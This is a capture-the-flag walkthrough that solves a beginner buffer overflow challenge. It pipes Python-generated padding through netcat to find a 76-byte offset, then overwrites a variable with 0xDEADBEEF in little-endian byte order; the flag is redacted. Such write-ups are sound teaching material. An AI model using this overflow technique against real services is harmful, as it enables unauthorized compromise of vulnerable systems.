 PWN Challenge
```
~$ nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input:
```

It is asking you to change the current value from 0 to 0xDEADBEEF.

There are two ways that we can input to this executable. From within the server or external to the server. For ease we go from outside the server.

Lets try and provide it with an answer, in this case 10 "A"s
```
~$ echo "AAAAAAAAAA" | nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x00000000
```

That failed. So again it is looking to change 0x00000000 to 0xDEADBEEF. Rather than keep typing out "A"s, we can use python.

```
:~$ python -c 'print "A" * 10' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x00000000
```

So that was not enough to overflow. Lets try some more - 50
```
:~$ python -c 'print "A" * 50' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x00000000
```

Nope, still not enough - how about 80?
```
:~$ python -c 'print "A" * 80' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x41414141
```

OK we are getting somewhere. We can see that our "A" code is starting to come through (leak) (0x41 is hex for A). So that means we are quite close. We need to now find at the point the "A" comes through.

Lets drop them to 77.
```
:~$ python -c 'print "A" *77' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x00000041
```

OK we see that a single A has leaked through, so if we take one off, the number is more likely to be 76. Lets try that.
```
:~$ python -c 'print "A" *76' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0x00000000
```

Great so we know that anything over 76 will be read as the answer. We now need to get the 0xDEADBEEF into our line of code as part of the overflow.

```
~$ python -c 'print "A" *76 + "\xDE\xAD\xBE\xEF"' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Try again, you got 0xefbeadde
```

OK - So close. Something to be aware of are Big and Little Endians. We can see that the code in order to be correct (in this case) will have to be reversed (Little Endian System)

```
python -c 'print "A" *76 + "\xEF\xBE\xAD\xDE"' |nc pwn.ctf.ae 9810
Welcome to PWN 101!
The integer variable is currently equal to 0. Can you change it to 0xDEADBEEF?
Send input: 
Congrats! You successfully modified the variable!
The flag is: CTFAE{**************************}
```
There you have it, I hope you found this helpful.


